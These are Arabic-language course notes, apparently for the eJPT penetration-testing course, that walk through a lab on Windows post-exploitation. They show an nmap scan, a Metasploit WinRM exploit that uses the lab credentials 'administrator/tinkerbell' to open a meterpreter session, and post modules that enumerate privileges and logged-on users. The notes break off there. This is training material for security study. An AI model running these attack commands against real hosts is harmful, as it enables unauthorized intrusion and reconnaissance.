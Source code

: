 # Session 9 (ejpt) - Day 9  
##  Host & Network Penetration Testing: Post-Exploitation  


السلام عليكم ورحمة الله وبركاته اليوم طبعا هو اخر يوم لكورس PTS غطينا تقريبا 90-95% من الكورس  

طبعا باذن الله راح نبدا من الي وقفنا عليه امس  

---

اللاب الاول الي معنا اليوم هو

Automating Windows Local Enumeration
-------------------------------------|  


طبعا زي مانشوف الان معطينا التارقت راح نفحصه بالـ nmap  
```bash
nmap -sV -sC 10.2.21.181  
```  

طبعا نشوف انه بورت 5985 مفتوح وهذا البورت عليه winrm service  

طبعا راح نستغله فورا   
```bash
msfconsole  
use exploit/windows/winrm/winrm_script_exec  
set RHOSTS 10.2.21.181  
set USERNAME administrator  
set PASSWORD tinkerbell  
set FORCE_VBS true  
exploit  
```  

طبعا المفروض نسوي بروت فورس عشان اليوزر والباسورد لكن اختصارنا واستغليناه فورا  

زي مانشوف عطانا meterpreter session  

نخلي السيشن في الخلفيه  
```bash
background  
```  

طبعا راح نسوي enum على النظام كامل الان قد استخدمنا قبل نفسها لكن هذي تختلف الموديول وفيه شي بالنهاية مفيد  

نشوف اول موديول  
```bash
use post/windows/gather/win_privs  
set SESSION 1  
run  
```  

نشوف انه عطانا الصلاحيات الي عندنا  

نشوف ثاني موديول  
```bash
use post/windows/gather/enum_logged_on_users  
set SESSION 1  
run  
```  
